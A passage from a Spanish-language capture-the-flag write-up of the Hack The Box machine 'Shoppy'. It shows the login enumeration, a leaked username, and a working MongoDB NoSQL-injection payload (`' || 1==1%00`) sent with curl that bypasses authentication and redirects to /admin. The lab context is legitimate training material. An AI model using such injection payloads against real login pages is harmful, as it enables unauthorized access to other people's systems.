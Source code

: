 Únicamente encontramos la ruta `/login` con la siguiente interfaz:

![shoppy.htb-login-web](shoppy_htb_login_web.png){: .shadow}

## Foothold

* * *

Es importante saber que al estar **frente a una página de logeo podemos aplicar diversar técnicas para evadirlas**, ya sea revisando el código fuente hasta o probar distintas inyecciones de autenticación. En está ocasión primero testeamos si podemos enumerar usuarios debido a la respuesta (el clásico _El usuario x no existe_ ó _Contraseña incorrecta para el usuario x, etc_). Sin embargo conseguimos la misma respuesta para cualquiera de las alternativas **Wrong Credentials** (manera efectiva de evitar este tipo de ataques de enumeración)

En el transcurso de probar diversos payloads y cambiando la cabezera `Content-Type` para la inyección que veremos luego pude generar un error y se filtro información importante que nos permitió enumerar un usario del sistema `jaeger` por la ruta _/home_

![shoppy.htb-error-user-enumeration](shoppy_htb_login_error_user_enumeration.png){: .shadow}

Lo que si obtuvo un comportamiento raro fue al intentar una **Inyección SQL**, ya que al ejecutar el clásico input de comilla simple `'` para verificar una posible respuesta con errores e información respecto a la **base de datos existente** que corre por detrás, la página se queda cargando y después de un minuto obtenemos un **504 Gateway Time-out**

De primeras este comportamiento es sospechoso, y al no darnos resultados pasamos a intentar **Inyecciones NoSQL** de las bases de datos NoSQL mas usadas, como por ejemplo `MongoDB`

![monog-SQLi](mongo_sqli.png){: .shadow}

```console
❯ mongo_inyection="' || 1==1%00"; curl -si -X POST -d "username=$mongo_inyection&password=" http://shoppy.htb/login
HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Tue, 04 Oct 2022 22:33:04 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
Location: /admin
Vary: Accept
Set-Cookie: connect.sid=s%3Allicfo6nBCXrJUxRWtE1kDVYDFb_--rg.HNyc0WXYDLCGhx4xb%2F620KnAtbOwyJod13xbblHrbbw; Path=/; HttpOnly

Found. Redirecting to /admin
```

Lo que hacemos aqui es pasarle un nombre de usuario vacío seguido del operador lógico **OR (\|\|)** y una declaración verdadera **1==1**, lo cuál permitira validar la consulta a pesar de pasar un usuario que no existe. Y por último un **Null byte (%00)** que tiene como rol único terminar el string para poder ignorar validaciones posteriores (en este caso ignorar la valiación del campo password)

> Aquí puedes encontrar mas información sobre maneras de evadir páginas de logeo [https://book.hacktricks.xyz/pentesting-web/login-bypass](https://book.hacktricks.xyz/pentesting-web/login-bypass)
{: .prompt-info}
